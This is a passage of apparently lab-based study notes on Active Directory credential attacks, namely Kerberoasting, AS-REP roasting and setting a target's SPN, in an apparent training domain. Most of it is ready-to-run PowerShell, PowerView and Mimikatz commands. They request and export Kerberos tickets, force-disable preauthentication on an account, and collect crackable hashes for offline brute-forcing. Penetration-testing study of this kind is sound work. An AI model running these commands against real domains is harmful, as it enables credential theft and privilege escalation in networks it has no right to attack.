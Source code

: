### Process
- Request TGS
	```bash
	Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.kerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcrop-mgmt.dollarcorp.moneycorp.local"
	```
	`Request-SPNTicket` from PowerView can be used as well for cracking with John or Hashcat.
- Check if the TGS has been granted.
	`klist`
- Export all tickets using Mimikatz
	`Invoke-Mimikatz -Command '"kerberos::list /export"'`

Now we can crack the passwords.

## Targeted Kerberoasting - AS-REPs
- If a user's UserAccountControl settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline.
- With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well.


DPE:: 11:17

 **Enumerating accounts with Kerberos Preauth disabled**
- Using PowerView (dev):
	`Get-DomainUser -PreauthNotRequired -Verbose`
- Using ActiveDirectory module:
	`Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth`

**Force disable Kerberos Preauth:**
- Lets enumerate the permissions for RDPUsers on ACLs using PowerView(dev):
	```bash
	Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
	Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
	Get-DomainUser -PreauthNotRequired -Verbose
	
	```

**Request encrypted AS-REP for offline brute-force**
- Let's use ASREPRoast
	`Get-ASREPHash -UserName VPN1user -Verbose`
- To enumerate all users with Kerberos preauth disabled and request a hash
	`Invoke-ASREPRoast -Verbose`

## Targeted Kerberoasting - Set SPN
- With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain).
- We can then request a TGS without special privileges. The TGS can then be "Kerberosted"

- Let's enumerate the permissions for RDPUsers on ACLs using PowerView(dev):
	`Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}`
- Using PowerView(dev), see if the users already has a SPN: 
	`Get-DomainUser -Identity supportuser | select serviceprincipalname`
- Using ActiveDirectory module:
	`Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName`

